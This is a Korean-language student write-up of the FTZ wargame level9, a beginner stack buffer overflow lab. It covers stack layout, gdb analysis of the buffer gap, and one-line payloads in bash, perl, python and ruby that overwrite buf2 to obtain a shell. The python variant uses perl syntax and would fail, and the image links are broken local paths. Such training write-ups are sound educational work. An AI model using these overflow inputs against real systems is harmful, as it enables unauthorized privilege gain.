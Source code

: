 ## FTZ level9 풀이 

------------------------------------------

#### 01 문제 파악 

버퍼 오버플로우 입문! 

스택의 구조 ; 지역 변수가 스택에 배치되는 순서와 위치를 알자 

 ![1](C:\Users\96dks\Desktop\SCP_발표ppt_2018SV\3주차_180716월\사용자료\1.png)



#### 02 의도 분석 

키보드로 입력 받거나 데이터를 넣는 부분이 없음 (buf2 배열에 값을 입력하기 불가능한 상황)

→ 강제 입력 가능  

→ 특정 값을 원하는 메모리에 덮어쓸 수 있는가?  



#### 03 나의 풀이 

![3-1](C:\Users\96dks\Desktop\SCP_발표ppt_2018SV\3주차_180716월\사용자료\3-1.JPG)

buf와 buf2 배열 사이의 더미값이 얼마인지 몰라서 buf2에 go가 들어갈 때까지 위 과정을 반복했다. 

my-pass명령어를 입력하면 패스워드가 나온다. 



#### 04 다른 풀이

스택의 구성을 파악하기 위해 buf 배열과 buf2 배열 사이의 간격을 확인해야 한다. 

1. hint 파일을 베껴와서 tmp 폴더에 bof.c를 만들었다. 
2. (1) vi 편집기를 실행하여

![1](C:\Users\96dks\Desktop\1.JPG)

2. (2) 한글을 모두 제외한 후에 

   ![2](C:\Users\96dks\Desktop\2.JPG)



3. tmp 폴더에 컴파일 하고 gdb로 열었다. 

![3](C:\Users\96dks\Desktop\3.JPG)



4. 다음에서 lea 오피코드가 있는 두 부분을 따로 떼어보면 

   ![4](C:\Users\96dks\Desktop\4.JPG)

   1. > lea  eax, [ebp-40]
      >
      > lea  eax, [ebp-24]

      40  > 24로 바뀐다. 즉 buf배열에서 16바이트를 할당 받는다는 것을 알 수 있었다. 

       따라서 buf2에 넘어가도록 buf에 16개의 문자열를 넣은 후에 buf2에 넘어가는 초기 2바이트를 go로 넣어주면 된다. 

   



#### 05 새로 알게된 것

  1) <unistd.h> 헤더 : 유닉스 계열 시스템에서 시스템 콜을 하기 위해 사용하는 헤더파일

  2) 'id' 명령어 : uid, gid, groups의 권한을 알려준다

  3) 스크립트를 이용한 문자열 입력 방법

* 배시셸의 printf명령을 이용한 방법

  > [level9@ftz tmp]$ (for i in 'seq 1 16'; do printf "A"; done; printf "go"; cat) | /usr/bin/bof 

* 펄 스크립트를 이용한 방법 

  > [level9@ftz tmp]$ (perl -e 'print "A"x16, "go"'; cat) | /usr/bin/bof 

* 파이썬 스크립트를 이용한 방법

  > [level9@ftz tmp]$ (python -c 'print "A"x16, "go"'; cat) | /usr/bin/bof 

* 루비 스크립트를 이용한 방법 

  > [level9@ftz tmp]$ (ruby -e 'print "A"x16, "go"'; cat) | /usr/bin/bof 



#### *참고자료 

* 여동기. 『문제 풀이로 배우는 시스템 해킹 테크닉』. 위키북스, 2015. 
* 우스이 토시노리 외 7인. 『CTF 정보보안 콘테스트 챌린지 북』. 위키북스, 2016. 
